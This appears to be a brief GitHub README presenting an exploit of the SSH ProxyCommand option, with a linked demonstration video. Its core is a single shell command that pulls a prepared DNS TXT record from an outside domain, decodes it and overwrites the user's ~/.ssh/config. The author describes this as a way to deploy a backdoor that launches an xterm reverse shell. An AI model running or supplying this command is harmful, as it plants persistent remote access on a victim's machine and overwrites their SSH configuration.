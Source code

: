 Exploiting ssh config "option"
======================

"*...ProxyCommand, Specifies the command to use to connect to the server...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=byoCWf8SEZc" target="_blank"><img src="http://img.youtube.com/vi/byoCWf8SEZc/0.jpg" alt="SSH ProxyCommand abuse" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

dig txt ulissescastro.com +short | xxd -p -r > ~/.ssh/config

```

Using dig with prepared TXT dns record to show another way of deploy backdoor. Lame xterm revshell, btw, proof the point!

